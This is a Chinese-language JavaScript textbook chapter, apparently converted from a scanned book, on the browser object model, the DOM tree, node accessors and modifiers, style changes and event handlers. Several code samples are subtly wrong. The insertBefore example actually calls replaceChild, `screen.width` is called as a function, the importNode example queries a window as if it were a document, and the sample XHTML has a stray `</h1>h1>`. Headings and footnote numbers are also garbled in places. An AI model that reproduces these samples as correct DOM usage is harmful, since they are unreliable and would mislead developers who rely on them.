#### `window` 方法

- `alert()`—显示带有消息的对话框。
- `blur()`—移除窗口焦点。
- `clearInterval()`—取消定时器。
- `clearTimeout()`—取消超时。
- `close()`—关闭当前窗口。
- `confirm()`—显示带有 OK 和取消按钮的对话框。如果用户点击 OK 则返回 `true`，否则返回 `false`。
- `focus()`—设置窗口焦点。
- `move()`—相对于当前位置移动窗口。
- `moveTo()`—将窗口移动到指定位置。
- `open()`—打开新窗口。
- `print()`—打开打印文档的对话框。
- `prompt()`—提示用户输入行的对话框。返回用户输入的文本（如果有）。
- `resizeBy()`—按指定的像素调整窗口大小。
- `resizeTo()`—按指定的宽度和高度调整窗口。
- `scrollBy()`—按指定的像素滚动内容。
- `scrollTo()`—滚动到指定的坐标。
- `setInterval()`—按指定的间隔执行表达式。
- `setTimeout()`—在指定的毫秒后执行表达式。

## 第 4 章 JavaScript 和文档对象模型

图 4.3.2 `window.prompt()`



图 4.3.2 是使用 `window` 对象的示例以及在 Firefox 中执行代码的结果。选择 OK 按钮将浏览器导航到网站 `http://ajaxian.com`。你也可以输入不同的地址。

```javascript
window.location.href = window.prompt("你想导航到哪里？", "http://ajaxian.com/");
```

### 4.3.2 `navigator` 对象

`navigator`²⁶ 提供有关浏览器的信息，包括浏览器版本、平台、语言和支持的 MIME 类型。以下是常用的 `navigator` 属性。

#### `navigator` 属性

- `appCodeName`—浏览器的内部代码名。
- `appName`—浏览器的官方名称。
- `appVersion`—字符串形式的浏览器版本。
- `mimeTypes`—浏览器支持的 MIME 类型列表。
- `platform`—运行浏览器的硬件平台。
- `userAgent`—浏览器在其 `USER-AGENT` HTTP 头部中发送的字符串。

图 4.3.3 是显示上述列出的 `navigator` 属性值的示例。

```javascript
var props = "appCodeName: " + window.navigator.appCodeName + "\n" +
  "appName: " + window.navigator.appName + "\n";
```

> ²⁶http://developer.mozilla.org/en/docs/DOM:window.navigator

## 4.3 浏览器对象模型（BOM）


图 4.3 `window.navigator`

```javascript
"appVersion: " + window.navigator.appVersion + "\n"
"mimeTypes: " + window.navigator.mimeTypes + "\n"
"platform: " + window.navigator.platform + "\n"
"userAgent: " + window.navigator.userAgent;
```

### 4.3.3 `screen` 对象

`screen`²⁷ 对象封装了窗口渲染所在显示器的信息，包括屏幕尺寸和它能显示的颜色数量。下面列出了 `screen` 对象的某些属性。

#### `screen` 属性

- `availHeight`、`availWidth`—以像素为单位的屏幕高度和宽度，减去了操作系统功能（如桌面任务栏）占据的空间。
- `height`、`width`—以像素为单位的屏幕高度和宽度。
- `colorDepth`—屏幕调色板的位深。

以下示例了以像素为单位的屏幕。

```javascript
window.alert(window.screen.width());
```

> ²⁷http://developer.mozilla.org/en/docs/DOM:window.screen

### 4.3.4 `history` 对象

`history`²⁸ 对象维护了浏览器窗口最近访问的 URL 列表。脚本无法直接访问此列表；但是，脚本可以调用 `history` 对象的方法在列表中向后或向前移动，类似于浏览器的“后退”和“前进”按钮。下面列出了 `history` 方法。

#### `history` 方法

- `back()`—在窗口（或帧）的浏览历史中向后移动。
- `forward()`—在窗口（或帧）的浏览历史中向前移动。
- `go()`—接受一个整数参数，并在浏览历史中向前移动任意步（正数参数）或向后移动（负数参数）。

以下示例使浏览器窗口从其历史中的三个位置之前重新加载文档。

```javascript
window.history.go(-3);
```


### 4.3.5 `location` 对象

`location` 对象封装了当前加载在浏览器窗口（或帧）中的文档信息。你可以通过为 `window.location.href` 赋值 URL 来使用 `location` 对象更改浏览器窗口加载的文档。下面列出了 `location` 对象的某些属性。

#### `location` 属性

- `host`—主机名和端口号（`www.w3.org:80`）。
- `hostname`—不带端口号的主机名（`www.w3.org`）。
- `href`—整个 URL（`http://www.w3.org:80/TR/html401/`）。
- `pathname`—相对于主机的路径（`/TR/html401`）。
- `port`—URL 的端口号（`80`）。
- `protocol`—URL 的协议（`http:`）。

> ²⁸ http://developer.mozilla.org/en/docs/DOM:window.history  
> ⁹ http://developer.mozilla.org/en/docs/DOM:window.location

图 4.3 给出了使用 `location` 对象的示例。

### 4.3.6 `frames` 数组

网页浏览器为每个窗口创建一个全局对象（窗口对象）。通常情况下，浏览器只有一个窗口对象；但是，如果查看的页面包含帧（一个 `<frameset>` 或 `<iframe>`），那么该页面有一个窗口对象，同时每个帧（每个 `<frame>` 或 `<iframe>`）也有一个窗口对象。

包含帧的页面对象（文档）有一个内置的 `frames` 数组，引用每个帧的窗口对象。`window.frames[]` 指向第一个帧的窗口对象。顶层文档（包含所有帧的页面）的窗口对象可以从任何地方引用。由于帧可以嵌套到任意深度，还有一个内置的 `parent` 属性引用当前帧的窗口。在顶层窗口中，`self`、`window` 和 `top` 都是引用。

示例 4.3 定义了一个名为 `Frames0` 的 HTML 文件，它包含了 `frameset`。示例 4.3.2 定义了名为 `Frame1` 的 HTML 文件，它也包含了 `frameset`。总来说，这两个示例定义了四个帧：`Frame0`、`Frame1`、`Frame1_0` 和 `Frame1_1`。`Frame0` 和 `Frame1` 加载在 `Frameset` 中，而 `Frame1_0` 和 `Frame1_1` 加载在 `Frameset` 中（即加载在 `Frame1` 中）。图 4.3 显示了浏览器是如何查看这些的。

为了让 `framesets` 和 `frames` 易于识别，我为加载的文档提供了虚线框和实线框。每个帧中的文本如下：

```html
<!DOCTYPE HTML "-//W3C//DTD HTML 4.0 Frameset//EN"
"http://www.w3.org/TR/html4/frameset.dtd">

<html style="border:2px dashed black; margin:4px;">

<head><title>Frames</title></head>

<frameset rows="50,*">

<frame name="Frame0" src="frame0.html">

<frame name="Frame1" src="frame1.html">

</frameset>

</html>
```

**示例 4.3** `frames0.html`  
http://www.w3.org/TR/html401/present/frames.html

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.0 Frameset//EN"
"http://www.w3.org/TR/html4/frameset.dtd">

<html style="border:2px dashed black; margin:4px;">

  <head><title>Frameset</title></head>

  <frameset cols="50%,*">

    <frame name="Frame1_0" src="frame1_0.html">

    <frame name="Frame1_1" src="frame1_1.html">

  </frameset>

</html>
```

**示例 4.3.2** `frames1.html`



**图 4.3.4** JavaScript 中的帧引用描述了如何使用 JavaScript 引用该帧中的每个窗口。

## 4.4 文档对象模型（DOM）

文档对象模型（DOM）是一种标准的平台与语言无关的编程接口，用于构建、访问和操作 HTML 以及良好的 XML 文档。DOM 是一个必须在实际编程语言中实现才能生效的接口。DOM 已经在许多语言中实现，包括浏览器中的 JavaScript。

W3C 标准化 DOM 是因为第一批为浏览器编写脚本（JavaScript 代码）的开发者发现，他们的脚本在不兼容浏览器的情况下无法正常工作。浏览器不兼容性仍然存在，但厂商对 DOM 标准的成功采用极大减少了这些问题。

由于 DOM 是语言无关的，它现在的最终目标是让程序员能够编写在所有浏览器、服务器和平台上都能正常运行的应用程序。DOM 不仅用于网页浏览器来解析和操作 HTML，还常用于各种应用程序来解析和操作 XML。

事实上，DOM 标准的基础 DOM Core 提供了一组低级对象，它们可以表示任何结构化文档，无论是 XML、HTML 还是其他内容。在 DOM Core 之上是 DOM 标准的另外两个部分：HTML 和 XML 规范，它们由对象和方法组成，提供了更简单、更直接的访问这些特定类型文档的方法。

DOM 是分级开发的³¹，已定义了 DOM 级别 1、2 和 3（3 尚未完全完成），未来可能会开发更多级别。遗憾的是，浏览器对现有 DOM 级别的支持差异很大³²。现代浏览器支持大部分 DOM Level 1 和 Level 2，但只支持 DOM Level 3 Core 的一半部分。以下概述了这些级别。

- **DOM Level 1**：定义了基础 Core、HTML 和 XML 文档模型，包括文档导航和操作的功能。
- **DOM Level 2**：在 Level 1 Core 和 HTML 文档模型的基础上增加。定义了样式表对象模型和操作文档样式信息的功能。还定义了文档遍历、事件模型以及对 XML 命名空间的支持。
- **DOM Level 3**：在 Level 1 Core 文档模型的基础上增加。定义了文档加载和保存、内容模型（如 DTD 和模式）以及验证、视图和格式，以及关键事件和事件组。

DOM 是基于树的模型，整个文档被解析并缓存为内存中节点的树形结构。DOM 定义了所有其他类型都继承的 `Node`³³。图 4.4.1 展示了 DOM 接口层次结构的一个子集。



**图 4.4.1** Core DOM 和 HTML DOM 接口层次结构

当浏览器解析 HTML 文档时，它会创建一个 `HTMLDocument`³⁴ 实例，该实例封装了整个文档——它成为了树结构的根。浏览器的 DOM 解析器为文档的每个部分创建对象，所有对象都实现了 `Node` 接口。

HTML 文档主要被解析为三种基本节点：元素节点（Element nodes）、文本节点（Text nodes）和属性节点（Attr nodes）。例如，当浏览器读取列表 4.4.1 时，它会创建如图 4.4.2 所示的链接节点树。

图 4.4.2 中的每一行都是树中节点之间的链接。节点之间关系的术语与家谱树使用的术语相同。层次结构中节点正下方的 `Node` 是该节点的父节点（例如，`<html>` 是 `<body>` 的父节点）。所有节点都有一个父节点，根节点除外，它没有父节点（图中的 `HTMLDocument` 是 HTML 层次结构的根；但它被视为所解析文档的根）。

> ³³ http://www.w3.org/TR/2004/REC-DOM-Level-3-Core-20040407/core.html#ID-1950641247  
> ³⁴ http://www.w3.org/TR/2003/REC-DOM-Level-2-HTML-20030109/html.html#ID-26809268

### 4.4.1 DOM 树示例



**图 4.4.2** DOM 树示例

节点正下方的节点是该节点的子节点（例如，`<head>` 和 `<body>` 都是 `<html>` 的子节点）。没有子节点的节点被称为叶节点。具有相同父节点且处于同一级的节点是兄弟（例如，`<head>` 和 `<body>` 是兄弟）。层次结构中节点下方的所有节点都是该节点的后代。层次结构中节点上方的所有节点都是该节点的祖先。

DOM 解析器为文档中的所有内容生成一个实现 `Node`³⁵ 接口的对象，包括标签、标签属性以及它们之间的文本。此外，HTML 标签被解析为实现 `Element`³⁶ 接口的对象。为了包含并表示整个文档，解析器创建了一个实现 `Document`³⁷ 接口的对象。

结合起来，`Document`、`Node` 和 `Element` 接口提供的 API 涵盖了你遍历和操作文档所需的所有内容。你通常使用这三个接口的次数比 DOM Core API 中的任何其他元素都要多。

> ³⁵ http://www.w3.org/TR/2004/REC-DOM-Level-3-Core-20040407/core.html#ID-1950641247  
> ³⁶ http://www.w3.org/TR/2004/REC-DOM-Level-3-Core-20040407/core.html#ID-745549614  
> ³⁷ http://www.w3.org/TR/2004/REC-DOM-Level-3-Core-20040407/core.html#i-Document

# 第 4 章 JavaScript 与文档对象模型

```html
<html xmlns="http://www.w3.org/1999/xhtml">

<head>

<title>XHTML Test</title>

</head>

<body>

<h1>Heading Content</h1>h1>

<p>First Paragraph Content</p>

<p id="p2">Second Paragraph Content</p>

</body>

</html>
```

**列表 4.4.1** XHTML 示例



**图 4.4.3** `HTMLDocument` 实例与 `window.document` 之间的关系

JavaScript 的 `window.document` 属性（第 4.1 节提到）是对图 4.4.2 所示 `HTMLDocument` 对象的引用。你可以通过在 Firefox 中加载列表 4.4.1，在 Firebug 中执行以下代码来轻松测试这一点。

```javascript
alert(window.document);
```

图 4.4.3 显示了结果。当对象传递给 `alert()` 方法时，会调用该对象的 `toString()` 方法来获取用于显示的字符串表示。JavaScript 中大多数对象的 `toString()` 简单地返回对象类型的名称，在这里是“HTMLDocument”。

DOM 规模庞大，无法在书中进行全面讨论，因此接下来的章节将涵盖你通常会使用的区域。要访问特定 HTML 元素的属性，你可以使用 DOM HTML API 中相关的接口（例如用于 `<form>` 标签的 `HTMLFormElement`³⁸）。

> ³⁸ http://www.w3.org/TR/2003/REC-DOM-Level-2-HTML-20030109/html.html#ID-4000275

## 4.4.1 遍历与操作 DOM

### 4.4.1.1 访问器

DOM 提供了几种方法和属性来访问文档的部分。当你想要获取特定节点的引用时，通常从使用 `Document` 接口开始。文档元素是所解析文档的根，对于 HTML 文档来说，它始终是 `<html>`。`Document` 实例中只有一个文档元素。

`Document` 接口的 `documentElement` 属性是指向文档元素的方便引用。如果我们在 Firefox 中加载列表 4.4.1，我们可以在 Firebug 中执行以下代码来访问 `<html>` 标签的 `xmlns` 属性。`getAttribute()` 方法定义在 `Element` 接口中，并返回给定名称的属性（见图 4.4.4）。

```javascript
document.documentElement.getAttribute("xmlns");
```

**图 4.4.4** `document.documentElement`



### 4.4.1.2 `getElementById(id)`

`getElementById` 方法返回具有给定 ID 的元素，如果不存在该 ID 的元素，则返回 `null`。如果你在 HTML 文档中创建了 `id` 属性，你通常知道需要哪个元素。图 4.4.5 展示了 `getElementById` 属性的用法。

```javascript
var secondParagraph = document.getElementById("p2");
```

### 4.4.1.3 `getElementsByTagName(tagName)`

`getElementsByTagName` 返回一个具有给定标签名的元素的 `NodeList`，如果没有这些标签，则返回空列表。该方法也接受通配符（`*`）以返回所有元素。

你可以使用 `item()` 方法或数组表示访问 `NodeList` 中的元素（见图 4.4.6）。`NodeList` 还提供一个 `length` 属性，返回列表中的节点数量。下面的代码获取段落元素列表并遍历它们。如果元素只包含文本，该文本会被解析为文本节点，它成为元素的第一个子节点。文本对象可以通过 `nodeValue` 属性引用。

```javascript
var paragraphs = document.getElementsByTagName("p");

for (var i = 0; i < paragraphs.length; i++) {
  alert(paragraphs.item(i).firstChild.nodeValue);
}

// 或者数组表示：paragraphs[i].firstChild.nodeValue
```

在使用 `Document` 接口获取元素引用后，可以使用 `Element` 和 `Node` 接口进一步遍历文档。

#### `DOM getAttribute(name)`

`getAttribute()` 方法返回给定名称的属性值。其用法在图 4.4.4 中演示，当 `<html>` 元素的 `xmlns` 属性输出到 Firebug 时。

`Element` 接口的 `getElementsByTagName(name)` 与 `Document` 接口的 `getElementsByTagName(name)` 方法类似，图 4.4.6 在 `Document` 接口中使用了相同的名称。区别在于 `Element` 方法只搜索层次结构中 `Element` 下方的，而 `Document` 方法搜索整个文档。

`Element` 方法更快，因为它不需要搜索整个文档，但在使用它之前你必须拥有元素的引用。

### `Node` 接口

```text
DOMString nodeName
DOMString nodeValue
```

### `NodeList childNodes`

`Node` 实例的 `childNodes` 属性返回包含所有直接子节点的 `NodeList`。`childNodes` 属性不返回孙子节点，即子节点的节点。只有元素节点有子节点。如果节点没有子节点，返回的 `NodeList` 将为空且长度为零。下面的代码演示了使用 `childNodes` 属性。

```javascript
var children = document.documentElement.childNodes;

for (var i = 0; i < children.length; i++) {
  alert(children[i].nodeName);
}
```


### Node parentNode `Node firstChild`

`Node last`

## 4.4 文档对象模型（DOM）



`Node previousSibling`

`Node nextSibling`

`Node` 接口提供了几个属性用于直接访问相邻节点。`parent` 属性返回父节点（只有 `Element` 节点可以是父节点，但除了 `Document` 外，所有节点都有父节点）。`firstChild` 属性返回子节点返回的 `NodeList` 中的第一个节点，而 `lastChild` 属性返回列表中的最后一个节点。当两个节点具有相同的父节点时，它们被称为兄弟节点，这意味着它们是父节点 `childNodes` 属性返回的 `NodeList` 中的节点。节点的 `previousSibling` 返回子节点列表中位于其之前的兄弟节点，而 `nextSibling` 属性返回位于其之后的节点。图 4.4.7 阐了这些关系。

### 4.4.1.2 修改器

DOM 还提供了修改文档结构的方法。与属性一样，最可能使用的修改器定义在 `Document`、`Element` 和 `Node` 接口中。如果你想向文档添加一个新节点，必须首先使用你正在修改的文档的 `Document` 实例创建一个新节点实例，或从另一个文档导入节点。之后，你使用 `Node` 接口中的方法通过将新节点设置为文档中现有节点的子节点，将其添加到文档中。

#### Document 接口

```text
Element createElement(DOMString tagName)
```

`createElement()` 方法创建一个指定类型的 `Element`。给定的 `tagName` 是你想要创建的元素的名称。例如，如果你想创建一个新的水平规则元素，你将传递字符串 `"hr"`。新元素没有父节点，这意味着它尚未成为创建它的文档的一部分。要将新元素添加到文档中，你必须使用下文描述的 `Node` 接口中的方法之一。

```javascript
var hrElement = document.createElement("hr");
```

```text
Node createTextNode(DOMString data)
```

`createTextNode()` 方法创建一个包含给定文本的新文本节点。创建的节点没有父节点，但可以通过后续描述的 `Node` 方法添加到创建它的文档中。以下代码演示了为新段落创建文本。

```javascript
var paragraphText = document.createTextNode("Third Paragraph Content");
```

```text
Node importNode(Node importedNode, boolean deep)
```

`importNode()` 将节点从另一个文档导入到此文档，而不修改另一个文档。与创建方法一样，返回的节点没有父节点，但已准备好通过 `Node` 接口添加到导入文档。假设你正在处理一个包含框架的 HTML 文档。每个框架都有自己的 `Document` 实例。你可以使用以下代码将一个框架文档中的第一个段落导入另一个框架。

```javascript
// 从 frames[1] 获取第一个段落
var otherParagraph = window.parent.frames[1].getElementsByTagName("p")[0];

// 此文档位于 frames[0] 中
var newParagraph = document.importNode(otherParagraph, true);
```

#### Element 接口

```text
void setAttribute(DOMString name, DOMString value)

void removeAttribute(DOMString name)
```

`setAttribute()` 方法为 `Element` 添加属性，如果该属性已存在，则将属性设置为给定的值。`removeAttribute()` 方法移除给定名称的属性。如果该属性不存在，则该方法无效。如果移除的属性具有默认值，则该属性本质上被设置为了默认值。

```javascript
document.getElementsByTagName("p")[0].setAttribute("id", "p1");
```

#### Node 接口

```text
Node insertBefore(Node newNode, Node refChild)
```

`insertBefore()` 方法在 `childNodes` 列表中指定的现有节点节点之前插入新节点，并返回插入的节点。换句话说，`insertBefore()` 方法使新节点成为现有节点的前兄弟节点。如果 `refChild` 为 `null`，则新节点被添加到列表末尾。如果新节点已经在列表中，则会先将其移除。以下代码示例在文档的第一个段落之前插入了一个新段落。

```javascript
var newParagraph = document.createElement("p");

var firstParagraph = document.getElementsByTagName("p")[0];

document.body.replaceChild(newParagraph, firstParagraph);
```

```text
Node replaceChild(Node newNode, Node oldChild)
```

`replaceChild()` 用新节点替换现有子节点并返回旧节点。如果新节点已经在那里，则会先移除。以下代码示例将第一个段落替换为水平规则。

```javascript
var hRule = document.createElement("hr");

var firstParagraph = document.getElementsByTagName("p")[0];

document.body.replaceChild(hRule, firstParagraph);
```

```text
Node removeChild(Node oldChild)
```

`removeChild()` 方法移除指定的子节点并返回它。以下代码示例删除了文档的第一个段落。

```javascript
var firstParagraph = document.getElementsByTagName("p")[0];

document.body.removeChild(firstParagraph);
```

```text
Node appendChild(Node newNode)
```

`appendChild()` 方法将新节点添加到 `childNodes` 列表的末尾并返回新添加的节点。如果新节点已经在那里，则会先移除。以下代码示例向文档添加了一个新段落。

```javascript
var newParagraph = document.createElement("p");

document.body.appendChild(newParagraph);
```

列表 4.4.2 在一个完整的示例使用了访问器和修改器。列表 4.4.1 中的示例 XHTML 经过了修改，在第二个段落之前添加了第二个标题，将第二个段落替换为不同的段落，为第一个段落和新段落添加 ID 属性，并在段落之间插入了水平规则。

图 4.4.8 展示了在 Firebug 中执行列表 4.4.2 代码后，列表 4.4.1 文档的样子。

> 42 http://www.w3.org/TR/DOM-Level-2/Style/css.html#CSS-CSSStyleSheet.

# 第 4 章 JavaScript 与文档对象模型



### 4.4.2 操控样式

描述文档如何在浏览器中渲染的许多细节定义在级联样式表中。因此，开发者编写的大部分 JavaScript 代码是为了操作文档。DOM 通过 `<style>` 或 `<link rel="stylesheet">` 标签将导入的样式表暴露为 `CSSStyleSheet` 接口的实例。每个样式对象都暴露样式规则，你可以对其进行检查和修改。你通过 `document.styleSheets` 数组访问样式表对象。通常，你不需要访问或直接修改这些样式表对象。动态修改样式的更常用方法是通过 `Element` 接口。

```javascript
// 创建新标题。
var newHeadingText = document.createTextNode("Second Heading Content");
var newHeading = document.createElement("h2");
newHeading.appendChild(newHeadingText);

// 创建新段落。
var newParagraphText = document.createTextNode("Different Paragraph Content");
var newParagraph = document.createElement("p");
newParagraph.appendChild(newParagraphText);
newParagraph.setAttribute("id", "p2");

// 创建水平规则。
var hRule = document.createElement("hr");
var secondParagraph = document.getElementById("p2");
var firstParagraph = secondParagraph.previousSibling;

while (firstParagraph.nodeName != "p") {
  firstParagraph = firstParagraph.previousSibling;
}

// 为第一个段落添加 ID。
firstParagraph.setAttribute("id", "p1");

// 添加新标题。
document.body.insertBefore(newHeading, secondParagraph);

// 替换第二个段落。
document.body.replaceChild(newParagraph, secondParagraph);

// 添加水平规则
document.body.insertBefore(hRule, newHeading);
```

| 列表 4.4.2 |
| :--- |
| DOM 方法的使用示例 |

### 4.4.2.1 style 属性

DOM 通过 `Element` 的 `style` 和 `className` 属性暴露每个 `Element` 的样式。`style` 属性返回一个 `CSSStyleDeclaration`⁴³ 接口实例，包含了浏览器 DOM 支持的所有样式属性。例如，你可以使用以下代码将文档中第一个段落的颜色设置为红色。

```javascript
var firstParagraph = document.getElementsByTagName("p")[0];

firstParagraph.style.setProperty("color", "#FF0000", "");
```

`setProperty()` 的第一个参数是要设置的属性名称，第二个参数是属性的值，第三个参数是该属性的 CSS 优先级（例如 `"important"`）。`CSSStyleDeclaration` 接口还具有 `getProperty()`、`getPriority()` 和 `removeProperty()` 方法；然而，很少使用这些任何一个方法。

访问和设置 `Element` 属性的常用方法是使用 `CSS2Properties`⁴⁴ 接口，它包含了 DOM 定义的每个样式属性的公开可访问属性。在现代浏览器中，`style` 属性返回的对象实现了 `CSS2Properties`。这样做并不是符合 DOM 的要求，但它的实现和用法是通用的。使用此接口，之前的示例将如下所示。

```javascript
var firstParagraph = document.getElementsByTagName("p")[0];

firstParagraph.style.color = "#FF0000";
```

使用 `CSS2Properties` 接口获取样式属性的值等同于调用 `CSSStyleDeclaration.getProperty()`。使用 `CSS2Properties` 接口设置样式属性的值等同于调用 `CSSStyleDeclaration.setProperty()`。

### 4.4.2.2 className 属性

当你需要同时为 `Element` 更改多个样式时，在样式表中为类选择器定义规则，然后使用 JavaScript 设置分配给 `Element` 的 `className` 属性的选择器会更加方便。例如，我们可以为列表 4.4.1 中的示例 XHTML 定义列表 4.4.3 中的样式。

> ⁴³ http://www.w3.org/TR/DOM-Level-2-Style/css.html#CSS-StyleDeclaration.
>
> ⁴⁴ http://www.w3.org/TR/DOM-Level-2-Style/css.html#CSS-CSS2Properties.

```css
.normal {
  color: #000000;
  font-style: normal;
  font-weight: normal;
  text-decoration: none;
}
```

```css
.styled {
  color: #FF0000;
  font-style: italic;
  font-weight: bold;
  text-decoration: underline;
}
```

## 列表 4.4.3

`styles.css`

然后编写一些简单的 JavaScript 来切换第二个段落的样式：

```javascript
function toggleStyles() {
  var p2 = document.getElementById("p2");

  p2.className = (p2.className == "normal") ? "styled" : "normal";
}
```

## 列表 4.4.4

`javascript.js`

然后修改示例 XHTML 使用这些样式和 JavaScript。

```html
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
  <title>XHTML Test</title>
  <link rel="stylesheet" type="text/css" href="styles.css" />
  <script type="text/javascript" src="javascript.js"></script>
</head>
<body>
  <h1>Heading Content</h1>
  <p>First Paragraph Content</p>
  <p id="p2" class="normal">Second Paragraph Content</p>
  <button onclick="toggleStyles()">Toggle Styles</button>
</body>
</html>
```


# 列表 4.4.5：带有样式的 XHTML 文件

如果你将上述列表保存到三个独立的文件中，并将文件加载到浏览器，你可以点击按钮让第二个段落的样式变为斜体、加粗、下划线和红色。



图 4.4.9 样式化的 XHTML

再次点击按钮样式将恢复正常。结果如图 4.4.9 所示。

更改 `className` 比更改样式对象的特定属性有一些优势。第一个优点是你的样式信息保留在样式表（CSS 文件）中，而不是散落在你的 JavaScript 代码中。Web 开发中的最佳实践是将内容（HTML）与样式（CSS）以及行为（JavaScript）分离，这意味着将它们放在三个独立的文件，正如前面的示例所示。第二个优点是浏览器处理 `className` 变化的速度比处理样式对象属性变化的速度更快。

## 4.4.3 处理事件

在上一节中，我们将 `toggleStyles()` JavaScript 函数附加到“Toggle Styles”HTML 按钮上，这样当用户点击按钮时就会调用该函数。每当发生有趣的事情时，网络浏览器都会生成一个事件，你可以通过注册事件处理器编写 JavaScript 代码来响应这些事件。这种概念被称为事件驱动编程。

在之前的示例中，当用户点击“Toggle Styles”按钮时，浏览器生成了一个点击事件。当我们把函数分配给 `<button>` 标签的 `onclick` 属性时，我们将 `toggleStyles()` 函数注册为点击事件的处理器。换句话说，我们为 `<button>` 标签定义了一个 `onclick` 事件处理器。

> ⁴³ http://www.w3.org/TR/DOM-Level-2-Style/css.html#CSS-StyleDeclaration.

## 模型

到目前为止我们只提到了点击事件，但 HTML 4 规范定义了其他几个事件，它们列在下表中。

| 事件处理器 | HTML 标签 | 事件 |
| :--- | :--- | :--- |
| `onclick` | `<button>`、`<a>`、`<input>` | `click` |
| `onblur` | `<input>`、`<select>`、`<textarea>` | `blur` |
| `onchange` | `<input>`、`<select>`、`<textarea>` | `change` |
| `onfocus` | `<input>`、`<select>`、`<textarea>` | `focus` |
| `onkeydown` | `<input>` | `keydown` |
| `onkeypress` | `<input>` | `keypress` |
| `onmousedown` | `<element>` | `mousedown` |
| `onmouseup` | `<element>` | `mouseup` |
| `onreset` | `<form>` | `reset` |
| `onsubmit` | `<form>` | `submit` |

每个浏览器还有它们自己的事件，这些事件不是 HTML 4 规范的一部分。这些事件中的大多数并不跨浏览器支持；然而，表 4.4.1 中的事件支持得非常好。

通常，你可以通过从事件处理器返回 `false` 来取消浏览器对事件的默认响应。可以通过从处理器返回 `false` 取消默认操作的事件包括 `onclick`、`onkeydown`、`keypress`、`onmousedown`、`onmouseup`、`onreset` 和 `onsubmit`。例如，如果表单验证失败，通常 `onsubmit` 事件处理器中返回 `false` 以防止表单提交。

```html
<script type="javascript">
  function validateForm(form) {
    if (form.input.value.length == 0) {
      return false;
    }

